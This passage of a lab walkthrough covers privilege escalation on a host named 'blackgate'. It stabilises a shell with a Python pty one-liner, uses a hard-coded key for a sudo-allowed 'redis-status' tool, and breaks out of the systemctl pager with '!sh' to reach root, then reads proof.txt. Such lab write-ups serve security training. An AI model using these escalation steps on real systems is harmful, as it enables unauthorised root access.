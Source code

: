 After stabilizing the shell with the command below, running `/usr/local/bin/redis-status` prompts for the `Authorization Key`. After authentication, the pager for `/usr/bin/systemctl status redis` is displayed.
```sh
prudence@blackgate:/tmp$ python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
prudence@blackgate:/tmp$ sudo redis-status
sudo redis-status
[*] Redis Uptime
Authorization Key: ClimbingParrotKickingDonkey321
ClimbingParrotKickingDonkey321
WARNING: terminal is not fully functional
-  (press RETURN)
```

It is same to execute `systemctl status redis` as `sudo`. So, I was able to [root shell spawning](https://gtfobins.github.io/gtfobins/systemctl/#sudo) in `systemctl status`.

![[Screenshot 2025-06-17 at 8.44.31 PM.png]]

```sh
prudence@blackgate:/tmp$ sudo redis-status
sudo redis-status
[*] Redis Uptime
Authorization Key: ClimbingParrotKickingDonkey321
ClimbingParrotKickingDonkey321
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# whoami
whoami
root
```

And, I found a `proof.txt` file in `/root`.
```sh
# pwd
pwd
/root
# whoami && hostname && ifconfig
whoami && hostname && ifconfig
root
blackgate
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.149.176  netmask 255.255.255.0  broadcast 192.168.149.255
        ether 00:50:56:ab:9f:f6  txqueuelen 1000  (Ethernet)
        RX packets 950  bytes 465684 (465.6 KB)
        RX errors 0  dropped 81  overruns 0  frame 0
        TX packets 509  bytes 71712 (71.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 540  bytes 41680 (41.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 540  bytes 41680 (41.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

# cat /root/proof.txt
cat /root/proof.txt
7-----------------------------c
```